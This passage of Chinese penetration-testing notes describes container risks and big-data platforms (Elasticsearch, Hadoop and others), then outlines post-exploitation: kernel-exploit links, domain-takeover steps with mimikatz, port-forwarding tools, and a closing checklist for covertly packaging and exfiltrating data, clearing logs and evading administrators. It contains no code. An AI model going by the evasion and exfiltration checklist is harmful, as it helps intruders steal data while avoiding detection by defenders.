	+ 拒绝服务攻击（Denial-of-service attacks） 所有的容器都共享了内核资源，如果一个容器独占了某一个资源（内存、CPU、各种ID），可能会造成其他容器因为资源匮乏无法工作（形成DoS攻击）。
	+ 容器突破（Container breakouts） Linux的namespace机制是容器的核心之一，它允许容器内部拥有一个PID=1的进程而在容器外部这个进程号又是不一样的（比如1234）。现在问题在于如果一个PID=1的进程突破了namespace的限制，那么他将会在主机上获得root权限。
	+ 有毒镜像（Poisoned images） 主要是考虑到镜像本身的安全性，没太多好说的。

Elsaticsearch
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Elasticsearch 是一个分布式的搜索和分析引擎，可以用于全文检索、结构化检索和分析，并能将这三者结合起来。Elasticsearch 基于 Lucene 开发，现在是使用最广的开源搜索引擎之一，Wikipedia、Stack Overflow、GitHub 等都基于 Elasticsearch 来构建他们的搜索引擎。

- 默认端口：9200、9300
- 攻击方法：
	+ 未授权访问；
	+ 远程命令执行；
	+ 文件遍历；
	+ 低版本webshell植入；
	
hadoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hadoop是一个开源的框架，可编写和运行分布式应用处理大规模数据，是专为离线和大规模数据分析而设计的，并不适合那种对几个记录随机读写的在线事务处理模式。

Hadoop=HDFS（文件系统，数据存储技术相关）+ Mapreduce（数据处理），Hadoop的数据来源可以是任何形式，在处理半结构化和非结构化数据上与关系型数据库相比有更好的性能，具有更灵活的处理能力，不管任何数据形式最终会转化为key/value，key/value是基本数据单元。

用函数式变成Mapreduce代替SQL，SQL是查询语句，而Mapreduce则是使用脚本和代码，而对于适用于关系型数据库，习惯SQL的Hadoop有开源工具hive代替。 Hadoop就是一个分布式计算的解决方案。

Hive
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hive是Hadoop家族中一款数据仓库产品，Hive最大的特点就是提供了类SQL的语法，封装了底层的MapReduce过程，让有SQL基础的业务人员，也可以直接利用Hadoop进行大数据的操作。

Sqoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Apache Sqoop（SQL-to-Hadoop） 项目旨在协助 RDBMS 与 Hadoop 之间进行高效的大数据交流。

用户可以在 Sqoop 的帮助下，轻松地把关系型数据库的数据导入到 Hadoop 与其相关的系统 (如HBase和Hive)中；同时也可以把数据从 Hadoop 系统里抽取并导出到关系型数据库里。除了这些主要的功能外，Sqoop 也提供了一些诸如查看数据库表等实用的小工具。

HBase
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
HBase建立在HDFS之上，提供高可靠性、高性能、列存储、可伸缩、实时读写的数据库系统。

它介于NoSQL和RDBMS之间，仅能通过行键(row key)和行键序列来检索数据，仅支持单行事务(可通过Hive支持来实现多表联合等复杂操作)。主要用来存储非结构化和半结构化的松散数据。

与Hadoop一样，HBase目标主要依靠横向扩展，通过不断增加廉价的商用服务器，来增加计算和存储能力。

Spark
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Spark是UC Berkeley AMP lab所开源的类Hadoop MapReduce的通用的并行计算框架，Spark基于map reduce算法实现的分布式计算，拥有Hadoop MapReduce所具有的优点；但不同于MapReduce的是Job中间输出和结果可以保存在内存中，从而不再需要读写HDFS。


后渗透
----------------------------------------

提权
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- https://github.com/SecWiki/windows-kernel-exploits
- https://github.com/SecWiki/linux-kernel-exploits

域攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 确定目标系统和应用程序
- 识别潜在的漏洞
- 利用漏洞获得初始访问
- 提升权限
- 定位域管理进程或者获取远程系统上的本地身份验证令牌
- 通过本地管理员的密码Hash，破解密码，使用mimikatz工具抓取密码验证运行在远程系统上的域名管理进程
- 迁移域管理进程
- 创建一个域管理员

建立后门/端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- LCX：windows下面的端口转发软件。
- sockscap：主要针对windows平台的端口转发和代理转发。
- proxifier：跨平台的端口转发和代理工具，适用windows，linux，
- Macos平台，代理转发利器
- Rsscoks：＊nix平台下的端口转发和代理工具，配合proxychains好用到不行。
- Proxychains：＊nix平台下老牌的socks代理工具，一般的系统都会自带，谁用谁知道。
- ssh proxy：通过ssh做端口代理和转发，一般＊nix系统都自带。
- netcat：socat，hping，在很多情况下可以做端口转发和数据代理转发。
- metasploit：metasploit的后渗透模块中有不少代理模块和端口转发模块

传输文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

制作后门/木马程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

日志清理
----------------------------------------

注意事项
----------------------------------------
- 检查内网监控防范系统
- 谨慎使用ARP软件和大面积扫描软件
- 使用目标网络中无空闲机器，作为打包对象
- 使用内网大流量机器作为传输对象，如wsus服务器、视频会议系统
- 使用临时机器打包、数据传输，不要使用已控机器，可利用wmi脚本或wmic远程操作
- 禁止使用psexec.exe
- 打包时避开用户工作时间
- 控制卷包大小<100M
- 选择用户常用压缩软件
- 错峰下载数据
- 控制传输流量
- 清除所有操作日志
- 登录主机前先看看管理员是否在
